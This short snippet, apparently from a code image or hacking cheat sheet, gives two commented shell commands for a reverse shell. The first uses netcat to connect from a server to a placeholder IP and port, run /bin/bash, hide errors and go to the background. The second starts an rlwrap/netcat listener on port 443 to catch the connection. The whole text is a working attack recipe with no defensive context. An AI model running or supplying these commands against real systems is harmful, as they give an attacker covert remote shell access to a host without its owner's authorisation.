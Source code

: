 # creating reverse shell on server
nc IP PORT -e /bin/bash 2 > /dev/null &

# listen to https port (netcat on mac otherwise nc)
rlwrap netcat -nvlp 443
